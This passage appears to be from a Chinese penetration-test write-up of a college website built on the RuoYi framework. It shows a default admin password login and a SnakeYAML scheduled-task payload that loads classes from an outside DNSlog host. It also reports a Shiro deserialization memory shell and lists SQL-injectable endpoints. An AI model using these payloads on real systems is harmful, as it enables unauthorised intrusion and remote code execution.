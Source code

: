 可以使用GitHub解密项目[https://github.com/wafinfo/Sunflower\_get\_Password](https://github.com/wafinfo/Sunflower_get_Password)进行解密。

解密后成功连接目标主机服务器

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666924390310-caacba10-13f3-4314-8551-df3695934fc3.png)

5、若依漏洞GetShell
==============

1、某学院首页

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666783594609-b9e91b72-5c7f-4525-99a9-0f7dd6715151.png)

2、/login ，访问后台页面，发现为若依框架，admin/admin@123直接登录后台

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666783656707-9e4caf19-b3bf-4bdf-9b54-6621127d41b9.png)

定时任务命令执行
--------

以管理员权限登录在定时任务处新增

org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager \[ !!java.net.URLClassLoader \[\[ !!java.net.URL \["ftp://ceshi.bdtmos.dnslog.cn"\] \]\] \]')运行任务

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666783386928-a952a760-b649-49e5-928e-58bf8be8fde8.png)DNSlog平台收到请求

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666784422042-1fd16b50-a8ab-40a1-8982-29767d0196cd.png)

shiro 反序列化漏洞
------------

工具直接开扫，成功注入内存马

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666784020286-ef599266-4c4f-4393-a009-f8ec64b31fd7.png)

连接内存马

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666784056566-1b072ea2-0745-489d-9db9-daea47defde0.png)

发现历史入侵痕迹，发现fscan黑客漏扫工具

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666784102977-d2089344-c47b-475d-a856-60c48c7a33d9.png)

SQL注入
-----

sql注入当时也懒得去尝试，估计也是存在的

/system/role/list

/system/role/export

/system/dept/edit

```php
POST /system/role/list HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
```